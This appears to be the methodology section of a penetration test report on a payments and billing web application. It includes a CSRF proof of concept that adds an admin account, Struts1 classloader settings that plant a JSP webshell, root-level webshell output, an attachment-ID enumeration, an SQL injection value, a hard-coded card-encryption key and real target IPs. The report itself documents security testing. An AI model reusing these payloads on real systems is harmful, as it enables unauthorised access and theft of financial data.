








# Methodology

## Web application penetration test of CINDY

### Application reconnaissance

The tester logged into the application with the supplied credentials and examined its configuration.

* The following security-related headers had been set:
  * Server: BTB Australia
* The following headers had NOT been set:
  * X-Frame-Options
  * Cache-control: no-store
  * Pragma: no-cache
  * Strict-Transport-Security
  * Content-Security-Policy
  * X-XSS-Protection
  * X-Content-Type-Options
  * Referrer-Policy: no-referrer
* Making a request to "/not_there" identified the server as running apache tomcat version 8.0.47:

```html
<!DOCTYPE html><html><head><title>Apache Tomcat/8.0.47 - Error report</title><style type="text/css">
H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} 
H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} 
H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} 
BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} 
B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} 
P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}
A {color : black;}A.name {color : black;}.line {height: 1px; background-color: #525D76; border: none;}
</style>
</head>
body><h1>HTTP Status 404 - /not_there</h1>
<div class="line"></div>
<p><b>type</b> Status report</p>
<p><b>message</b> <u>/not_there</u></p>
<p><b>description</b> <u>The requested resource is not available.</u></p>
<hr class="line">
<h3>Apache Tomcat/8.0.47</h3>
</body></html>
```

* Visiting the login page identified the use of struts1 through the default extension ".do"
* Wappalyzer identified a number of third party plugins:
  * Use of Java (also inferred through the use of struts1 and Tomcat)
  * New Relic Analytics
  * The DataTables, JQuery 1.12.2, JQueryUI JavaScript frameworks
  * TinyMCE rich text editor
  * Google Maps location services
* The application did not perform business logic checks to ensure that sell price inc GST is equal to sell price ex GST + 10%. It was possible to enter any value into either field without consideration for the other. For example the application would accept the following input:

| Sell Price | Sell Price + GST |
|:----------:|:----------------:|
| $200       | $5               |

### Examine authentication and session management

The tester reviewed the authentication and session management functions:

* The application requires a username/password to authenticate.
* The application uses the JSESSIONID cookie to track session state. It does not set any other cookies.
* The following attributes were set for the JSESSIONID:
    * HttpOnly
    * Secure
    * Path=/cortel-admin
    * Samesite was NOT set
* The application changes the session cookie on login and invalidates the old value.
* The application does not set directives to prevent caching. The authenticated area can be viewed by clicking back in the browser.
* The application changes the session cookie at logout and invalidates the old value.

## Examine user search/view/add features

The tester reviewed the search/view/add user features and noted:

* The search user feature could be scripted to find any user by searching for the first letter and iterating through the different combinations of the 'effective' and 'admin' search attributes.
* The password field could be inspected to reveal a user's password in the browser.



* There was a "Generic password generator" at the top of the application that generated pseudo random passwords with a length of 12.
* There was no enforced password complexity. The system accepted a password of "a" when creating an administrator account.
* There did not appear to be any protections against CSRF on the add administrator account.

### Exploit CSRF to gain access

The tester tested the add user feature for CSRF:

* Used the CSRF PoC generator to create a CSRF PoC for burp.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://13.54.255.86/cortel-admin/user/addAdminUser.do" method="POST">
      <input type="hidden" name="admin" value="true" />
      <input type="hidden" name="effective" value="true" />
      <input type="hidden" name="username" value="evil" />
      <input type="hidden" name="password" value="GNI3EIKIBCZiJkEnjxEPqme7" />
      <input type="hidden" name="btn&#95;submit&#46;null" value="Add&#32;Admin&#32;User" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

* Copy the test URL into Firefox. In a real world scenario the HTML code above would be embedded into a malicious site and JavaScript included to auto submit the form so that no user interaction is required beyond visiting the malicious site while logged in.




* Clicked the link to trigger the form submission and execute the attack. The account was created.



### Extract data from application

The tester found a feature to download attachments in the application at: https://13.54.255.86/cortel-admin/common/downloadAttachment.do?binaryAttachmentId=127389. The request URL included a parameter binaryAttachmentId=16617. The tester used burp intruder to iterate through all numeric ids from 1 to 300,000 and found that the application had a record of attachments starting from 9229 and incrementing until 149153. The response identified the uploaded filename and extension in the "Content-disposition" header, and the content in the response body. The tester noted that the last few requests were for attachments they had uploaded, further supporting the theory that the ID is incremented with each upload.

```
HTTP/1.1 200 OK
Content-disposition: attachment; filename="nmap.tcp.full.log.nmap"
Content-Type: application/octet-stream
Content-Length: 144
Date: Mon, 23 Oct 2017 07:50:04 GMT
Connection: close
Server: BTB Australia

# Nmap 6.49BETA4 scan initiated Mon Oct 23 13:37:47 2017 as: nmap -T2 -Pn -p- -oA nmap.tcp.full.log 103.55.76.16/29 103.74.184.248 103.55.76.98
```

149153 files were recovered including financial records.

### Test for struts 1 classloader vulnerability

Having observed the use of the ".do" extension, the tester was able to deduce that the application made use of the struts1 framework (%{client} had also disclosed this information previously). Stuts1 has an unpatched vulnerability, CVE-2014-0114 (https://www.cvedetails.com/cve/CVE-2014-0114/), which was discovered after the framework was marked for end-of-life.

To test for the vulnerability the following request was made and confirmation received that the server was vulnerable was received via a 500 error.

```html
GET /cortel-admin/security/showLoginAdmin.do?class.classLoader.resources=ROOTEDCON HTTP/1.1
Host: 13.54.255.86
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=5B56673D287E7E9B6AB5A8C88AE02EBA; JSESSIONID=32A94721FDF0F7BC669975B435
Connection: close
Upgrade-Insecure-Requests: 1


HTTP/1.1 500 Internal Server Error
Content-Type: text/html
Content-Length: 0
Date: Tue, 24 Oct 2017 04:49:49 GMT
Connection: close
Server: BTB Australia
```

The next step was to build a test lab so that an exploit could developed and tested (experience on a previous test showed that the metasploit module was unreliable). Apache Tomcat 8.0.47 and Struts 1.3.10 were used to build the environment, with a vulnerable application downloaded from [https://github.com/julianvilas/rooted2k15/](https://github.com/julianvilas/rooted2k15/) for testing. 

After some work the tester was able to develop a working exploit that worked in two parts. The first part utilised the classloader vulnerability to set the following values for the default AccessLogValve used by the Tomcat server:

* class.classLoader.resources.context.parent.pipeline.first.pattern=combined
* class.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
* class.classLoader.resources.context.parent.pipeline.first.prefix=evil_shell 
* class.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
* class.classLoader.resources.context.parent.pipeline.first.fileDateFormat=4

This set the log location to a known file in a directory accessible via HTTPS (i.e. https://13.54.255.86/evil_shell4.jsp) and the logging format to "combined mode", which includes the User-Agent header. 

The second part of the exploit was to develop a one-line JSP shell and embed it in the User-Agent HTTP header, so that when the log file was requested, the embedded JSP would be executed. 

The final exploit sent to the server and response are below:


Once the request had been completed, the shell was created at https://13.54.255.86/evil_shell4.jsp, which was used to execute further commands against the server.


### Post exploitation of struts 1 classloader

Having proved code execution the tester downloaded and modified the [hentix tool](https://github.com/garbr0/hentix) to execute commands against the server as if they were at the console. Source code modified has been included in [Appendix - Modifications to hentix](## Appendix - Modifications to hentix).

```bash
webshell$ uname -a

Linux f970343092ea 4.4.0-1022-aws #31-Ubuntu SMP Tue Jun 27 11:27:55 UTC 2017 x86_64 GNU/Linux

webshell$ ip add show

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
        valid_lft forever preferred_lft
forever80: eth0@if81: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 scope global eth0
        valid_lft forever preferred_lft forever

webshell$ id

uid=0(root) gid=0(root) groups=0(root)

webshell$ ls webapps/cortel-admin/WEB-INF

application		    client			    dtd			    index.jsp		rateplan		tags			web.xml
billing			    common			    email			lib			    report			test			web.xml.bak
bureau_reporting	credit_management	error.jsp		macs			security		tld
classes			    dealer			    event			provisioning	supplier		user

webshell$
```

The tester downloaded the contents of the /usr/local/tomcat directory and inspected the contents. 1490 Java ".class" files were discovered, which were decompiled using jd and saved for further analysis.



### Review source code

With decompiled source code, the tester switched the focus of the assessment to source code review to make best use of remaining time and find as many issues as possible. Exploitation was not performed as there was limited time left on the assessment, and a development environment was not available to check back-end systems.

#### Libraries in use

The tester confirmed the libraries in use and checked them for vulnerabilities:

* struts version 1.X has a critical vulnerability and is unsupported.
* Apache common collections version 3.1 has a critical vulnerability patched in version 3.2 that could allow code execution when de-serialising user controlled inputs. No instances of serialisation were identified during application reconnaissance.
* A scan of the libraries using OWASP Dependency Check identified a total of 419 vulnerabilities across 9 dependencies, with the following having a high severity:
  * commons-beanutils-1.7.0.jar
  * commons-collections-3.1.jar
  * commons-fileupload-1.0.jar
  * mysql-connector-java-5.1.7-bin.jar
  * spring-core-4.1.6.RELEASE.jar
  * standard.jar
  * struts-1.2.9.jar

#### Command, XPath and LDAP injection

* System calls were found within unit tests, but the commands were a static string
* No usage of XPath was discovered
* No usage of LDAP was discovered

#### XML Injection

Two potential instances of XML injection were discovered.

* In NABPayment.class the makePayment function uses string concatenation to build the XML request for payment without any apparent attempt to XML escape the input (see below)
* The same issue was discovered in NABPaymentIndividualDD.class

```java

public BillPaymentResult makePayment(Money amountPaid, String cardNumber, String cvv, String expiryMonth, String expiryYear, String name, String cidn, String billId, SystemParamService systemParamService)
  {
    String xmlString = "<?xml version=\"1.0\" encoding=\"UTF-8\"?><NABTransactMessage><MessageInfo><timeoutValue>60</timeoutValue><apiVersion>xml-4.2</apiVersion></MessageInfo><MerchantInfo>  <merchantID>" + 
    
      System.getProperty("nabMerchant") + 
      "</merchantID>  <password>" + 
      System.getProperty("nabPassword") + 
      "</password> </MerchantInfo>" + 
      "<RequestType>Payment</RequestType><Payment><TxnList count=\"1\"><Txn ID=\"1\"><txnType>0</txnType><txnSource>23</txnSource>" + 
      "<amount>" + 
      amountPaid.getCents() + 
      "</amount><currency>AUD</currency><CreditCardInfo><cardNumber>" + 
      cardNumber + 
      "</cardNumber><cvv>" + 
      cvv + 
      "</cvv>" + 
      "<expiryDate>" + (
      expiryMonth.length() < 2 ? "0" + expiryMonth : expiryMonth) + 
      "/" + (
      expiryYear.length() == 4 ? expiryYear.substring(2) : 
      expiryYear) + 
      "</expiryDate><cardHolderName>" + 
      name.replaceAll("&", "&amp;") + 
      "</cardHolderName><recurringflag>no</recurringflag> " + 
      "<purchaseOrderNo>" + 
      cidn + 
      ":" + 
      billId + 
      "</purchaseOrderNo>" + 
      "</CreditCardInfo></Txn></TxnList></Payment></NABTransactMessage>";
```

As these functions are related to payments, these weaknesses may be exploited to modify payment information and commit fraud.

#### XML Entity Injection

One potential instance of XML external entity injection was discovered in the getBPayments method of EziDebtPaymentImpl.class. The DOM Parser was not configured to disable external entity processing after creation, and the remote DTD is supplied to the parser.

```java
  public List<String> getBPayments(SystemParamService systemParamService)
  {
    DOMParser parser = new DOMParser();
    // Missing configuration as per https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet
    List<String> ret = new ArrayList();
    try
    {
      PaymentExchangeLocator pel = new PaymentExchangeLocator();
      pel.setPaymentExchangeSoapEndpointAddress(systemParamService.getSystemParamString(SystemParamKey.EZIDEBIT_SERVER_URL));
      PaymentExchangeSoap pes = pel.getPaymentExchangeSoap();
      Calendar cal = Calendar.getInstance();
      cal.add(5, -7);
      String result = pes.getPaymentsExXmlString(systemParamService.getSystemParamString(SystemParamKey.EZIDEBIT_KEY), "ALL", "ALL", "ALL", "", DateUtil.safeFormatDate(cal.getTime(), DateFormatKey.DATE_FORMAT_YYYY_MM_DD), DateUtil.safeFormatDate(new Date(), DateFormatKey.DATE_FORMAT_YYYY_MM_DD), "SETTLEMENT", "", "");
      
      // Remote DTD in supplied to parser.
      ByteArrayInputStream bis = new ByteArrayInputStream(("<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?>\n" + result).getBytes());
      InputSource is = new InputSource(bis);
      parser.parse(is);
```

Exploitation could result in disclosure of system files, server side request forgery (including port scanning) or denial of service.

#### SQL Injection

Several instance of unsafe string concatenation were discovered that could lead to SQL injection.

* Method uploadAndProcess in ReferenceDataImporter.class: the contents of a file which includes wholesaler information is read, parsed, and a number of queries executed using the data without validation. The logic related to parsing the file was complex and it wasn't clear under what conditions could be exploited.

```java
        String firstToken = csvTokenizer.nextElement().toString();

        ... snip ...

        else if (currentTable.equals("ref_wholesaler"))
        {
          Statement stmt = (Statement)conn.createStatement();
          ResultSet rs = stmt.executeQuery("SELECT * FROM ref_wholesaler where code = '" + firstToken + "'");
          if (!rs.next())
          {
            LOG.debug("Adding to " + this.properties.getProperty("DATABASE") + " : class com.a3.domain.common.Wholesaler : " + firstToken);
            stmt.executeUpdate("INSERT INTO ref_wholesaler VALUES ('" + firstToken + "','" + csvTokenizer.nextElement().toString() + 
              "','" + csvTokenizer.nextElement().toString() + "','system','" + file_date + "')");
          }
        }
```

* Method doesServiceNumbersExist in ServiceNumberDirectDAO.class: the supplied list of service numbers may be user controlled. When entering service numbers, input validation checks allowed entry of "78654a') or ('1'='1".

```java
  public boolean doesServiceNumbersExist(String db, List<String> numbers)
    throws Exception
  {
    Connection connection = getConnection(false);
    StringBuffer numberStringBuffer = new StringBuffer();
    for (String number : numbers)
    {
      if (numberStringBuffer.length() > 0) {
        numberStringBuffer.append(",");
      }
      numberStringBuffer.append("'" + 
        StringUtil.standardizeNumber(number) + "'");
    }
    String sql = "select * from " + db + 
      ".service_number where service_number in (" + 
      numberStringBuffer.toString() + ")";
    Statement statement = connection.createStatement();
    
    ResultSet resultSet = statement.executeQuery(sql);
    boolean result = false;
    if (resultSet.next()) {
      result = true;
    }
    cleanup(resultSet, false);
    return result;
  }
```

* Method insertSERRecord in EventDAOImpl.class: the review did not identify whether the supplied serRecord can come from an untrusted source.

```java
  public void insertSERRecord(TelstraSER serRecord)
  {
    Statement statement = null;
    try
    {
      statement = getSession().connection().createStatement();
      ResultSet rs = statement
        .executeQuery("select * from telstra_ser where service_number = '" + 
        serRecord.getServiceNumber() + 
        "' and call_type = '" + 
        serRecord.getCallTypeCode() + 
        "' and (date_off = 'null' or date_off = '') and quantity = '" + 
        serRecord.getQuantity() + "' order by id");
```

* Method doesServiceNumbersExist in TestServiceNumberAlreadyExists.class:  might be vulnerable.

```java
public boolean doesServiceNumbersExist(String db, List<String> numbers, Connection connection)
    throws Exception
  {
    StringBuffer numberStringBuffer = new StringBuffer();
    for (String number : numbers)
    {
      if (numberStringBuffer.length() > 0) {
        numberStringBuffer.append(",");
      }
      numberStringBuffer.append("'" + StringUtil.standardizeNumber(number) + "'");
    }
    String sql = "select * from " + db + ".service_number where service_number in (" + numberStringBuffer.toString() + ")";
    System.out.println(sql);
    Statement statement = connection.createStatement();
    
    ResultSet resultSet = statement.executeQuery(sql);
```

Overall there were a large number of SQL queries that did not make use of parameterised statements.

#### Encryption

A static hard-coded key for encryption of credit cards is in use.

```java
  private static byte[] encryptByteArray(byte[] array)
    throws Exception
  {
    byte[] key = "it176CB!7GLa3M0q".getBytes();
    SecretKeySpec desKey = new SecretKeySpec(key, "AES");
    Cipher cipher = Cipher.getInstance("AES");
    cipher.init(1, desKey);
    byte[] encryptedArray = cipher.doFinal(array);
    return encryptedArray;
  }
```

The application appeared to store CVV numbers.

These issues are both automatic fails should the organisation be audited against the Payment Card Industry Data Security Standard.

No encryption of passwords was discovered.

## Penetration test of external infrastructure

### Scan external infrastructure

Nmap and Nessus scans were run against the following hosts:

* 103.55.76.16/29
* 103.74.184.248
* 103.55.76.9

Scan configs and results have been included in the test_data tarball accompanying this report. A summary of results:

* mail server found at 103.55.76.16
* CINDY production instances found at 103.74.184.248 and 103.55.76.23
* VPN server (IPSEC and L2TP) found at 103.55.76.98
* FTP servers found at:
  * 103.55.76.16
  * 103.55.76.17
  * 103.55.76.18
  * 103.55.76.19
  * 103.55.76.20
  * 103.55.76.21
  * 103.55.76.22
  * 103.55.76.23
  * 103.55.76.98
  * 103.55.76.248

### Determine hosting locations

It was noted that routing information for 103.55.76.248 and the other addresses differed in the last few hops. In each case the last registered hop was either owned by anycast.com.au (103.30.216.147), or streamlinenetworksolutions.com.au (43.225.32.146). Both businesses are Melbourne based. This is consistent with BTB's statement that CINDY is hosted in an active/active configuration in their datacentre and the Melbourne office.

```bash
MacBook-Pro:test_data gee$ traceroute 103.55.76.248
traceroute to 103.55.76.248 (103.55.76.248), 64 hops max, 52 byte packets
 1  192.168.1.1 (192.168.1.1)  10.913 ms  1.231 ms  1.119 ms
 2  192.168.2.1 (192.168.2.1)  2.296 ms  1.749 ms  4.788 ms
